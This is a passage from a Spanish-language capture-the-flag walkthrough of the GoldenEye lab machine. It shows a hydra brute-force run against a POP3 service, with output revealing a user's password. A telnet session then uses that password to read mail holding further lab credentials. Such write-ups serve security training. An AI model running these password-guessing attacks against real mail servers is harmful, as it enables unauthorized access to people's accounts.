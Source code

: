 Básicamente nos dice que el usuario de correo electrónico es **doak**; por lo que ya debemos estar pensando que tratar de utilizar fuerza bruta para obtener su contraseña.

```bash
❯ hydra -l doak -P /usr/share/wordlists/fasttrack.txt pop3://10.0.0.24 -s 55007
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-01 18:45:53
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://10.0.0.24:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[STATUS] 72.00 tries/min, 144 tries in 00:02h, 78 to do in 00:02h, 16 active
[55007][pop3] host: 10.0.0.24   login: doak   password: goat
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-01 18:48:21
```

Ya tenemos las credenciales de **doak** así que vamos a echarle un ojo a los correos que tiene:

```bash
❯ telnet 10.0.0.24 55007
Trying 10.0.0.24...
Connected to 10.0.0.24.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER doak
+OK
PASS goat
+OK Logged in.
LIST
+OK 1 messages:
1 606
.
RETR 1 
+OK 606 octets
Return-Path: <doak@ubuntu>
X-Original-To: doak
Delivered-To: doak@ubuntu
Received: from doak (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id 97DC24549D
        for <doak>; Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
Message-Id: <20180425034731.97DC24549D@ubuntu>
Date: Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
From: doak@ubuntu

James,
If you're reading this, congrats you've gotten this far. You know how tradecraft works right?

Because I don't. Go to our training site and login to my account....dig until you can exfiltrate further information......

username: dr_doak
password: 4England!

.

```
